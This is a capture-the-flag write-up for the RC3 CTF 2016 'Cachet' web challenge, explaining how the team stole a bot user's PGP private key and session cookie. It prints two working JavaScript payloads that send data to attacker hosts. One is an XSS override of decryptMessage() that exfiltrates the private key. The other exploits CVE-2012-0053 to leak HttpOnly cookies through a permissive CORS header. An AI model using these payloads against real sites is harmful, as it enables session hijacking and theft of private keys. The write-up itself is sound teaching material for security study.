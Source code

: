 #### Cachet, a web challenge from RC3 CTF 2016
---

Cachet was a messaging service where the user can send messages (encrypted on the client) to others. A PIN, verified by the server, is required before you can view an encrypted message. 

tl;dr: XSS the user to get their private key, abuse an old Apache server on another port to get the HttpOnly cookie and thus the encrypted flag.

We quickly found an XSS vulnerability in the PGP message itself. This is only sent to the client after the PIN is confirmed, but this turned out to be irrelevant.

Our first payload attempted to steal the PGP key by hooking `onkeypress`, but the bot did not trigger this, so we instead overwrote the `decryptMessage()` function:
```javascript
function decryptMessage() {
    $.ajax({
      url: "http://xx.xx.xx.xx/recv.php",
      data: {x: $("#privkey").val(), y: $("#msg-subject").val()},
    });
}
```

Having the private key, we now needed the message to decrypt. After retrieving the list of messages from `read.php`, we saw the flag was in message #2 and the PIN was Julian Assange's birthday (as indicated by their subjects). We first tried simply retrieving message #2, but the application checked the `Referer` header to ensure the request was coming from the right page. Since we were coming from a different message, this check was failing. You cannot overwrite the `Referer` header in an AJAX request, and the cookies were marked HttpOnly, so we were temporarily stuck.

Eventually, we discovered a development server running on port 8080. While this was a non-functional version of the application, it was running an old version of Apache. It also had an `Access-Control-Allow-Origin` header set to the original site, allowing us to make AJAX requests (with cookies!) to it. This particular version of Apache was vulnerable to CVE-2012-0053, a vulnerability that will echo back sent cookies if you exceed Apache's header size limit. This allowed us to compromise the session cookie, which is marked HttpOnly, for the user using a modified exploit:
```javascript
function setCookies (good) {
    // Construct string for cookie value
    var str = "";
    for (var i=0; i< 819; i++) {
        str += "x";
    }
    // Set cookies
    for (i = 0; i < 10; i++) {
        // Expire evil cookie
        if (good) {
            var cookie = "xss"+i+"=;expires="+new Date(+new Date()-1).toUTCString()+"; path=/;";
        }
        // Set evil cookie
        else {
            var cookie = "xss"+i+"="+str+";path=/";
        }
        document.cookie = cookie;
    }
}
 
function makeRequest() {
    setCookies();
 
    function parseCookies () {
        var cookie_dict = {};
        // Only react on 400 status
        if (xhr.readyState === 4 && xhr.status === 400) {
            // Replace newlines and match <pre> content
            var content = xhr.responseText.replace(/\r|\n/g,'').match(/<pre>(.+)<\/pre>/);
            if (content.length) {
                // Remove Cookie: prefix
                content = content[1].replace("Cookie: ", "");
                var cookies = content.replace(/xss\d=x+;?/g, '').split(/;/g);
                // Add cookies to object
                for (var i=0; i<cookies.length; i++) {
                    var s_c = cookies[i].split('=',2);
                    cookie_dict[s_c[0]] = s_c[1];
                }
            }
            // Unset malicious cookies
            setCookies(true);
            $.ajax({
              data: {c: JSON.stringify(cookie_dict)},
              url: "http://ec2-xx-xx-xx-xx.compute-1.amazonaws.com/c.php",
            });
        }
    }
    // Make XHR request
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = parseCookies;
    xhr.open("GET", "http://54.172.225.153:8000", true);
    xhr.withCredentials = true;
    xhr.send(null);
}
 
makeRequest();
```

This sent us the cookie for the user, allowing us to read the message (which contained the flag) and decrypt it with the previously stolen key.
